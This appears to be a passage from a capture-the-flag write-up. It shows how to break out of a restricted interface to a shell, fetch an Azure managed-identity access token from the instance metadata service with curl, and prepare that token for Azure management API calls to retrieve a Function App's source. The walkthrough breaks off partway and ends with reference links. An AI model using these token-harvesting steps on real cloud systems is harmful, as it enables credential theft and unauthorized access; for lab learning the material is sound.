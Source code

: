 We will see a `Satellite Tracking Interface`. Press `ctrl+c` to go into a CLI.
It's run via `~/.bashrc`.

```
# Start SatTrackr
/usr/local/bin/sattrackr
```

This is where we have to use curl and get info through the Azure REST API.
 
We need a token that we can get using this
https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token

GET 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' HTTP/1.1 Metadata: true

Shouldn't change the resource.

```json
$ curl "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"\
    -H "Metadata: true"

{
  "access_token": "[removed]",
  "client_id": "b84e06d3-aba1-4bcc-9626-2e0d76cba2ce",
  "expires_in": "85606",
  "expires_on": "1702417629",
  "ext_expires_in": "86399",
  "not_before": "1702330929",
  "resource": "https://management.azure.com/",
  "token_type": "Bearer"
}
```

We have an access token. We can pass it in curl to get the code for the app.
Instead of passing it every time, we put it in a curl config file like this:

```bash
# cfg
-H "Authorization: bearer [token from above]"
```

Then pass the config file with `--config cfg`.

----------

**Use the Function App to get his TODO list.**

This is to get the source code. We need to figure out the placeholders.

GET https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Web/sites/{name}/sourcecontrols/web?api-version=2022-03-01

https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl

Now we need three placeholders:


[c-c]: https://developer.chrome.com/docs/devtools/application/cookies
[comb]: https://www.youtube.com/watch?v=27rE5ZvWLU0
[linux-lpe]: https://payatu.com/blog/a-guide-to-linux-privilege-escalation/
[lug]: https://www.youtube.com/watch?v=ycM1hBSEyog
[cld]: https://www.cloudflare.com/learning/email-security/dmarc-dkim-spf/
[kusto]: https://detective.kusto.io/sans2023
[clus]: https://dataexplorer.azure.com/freecluster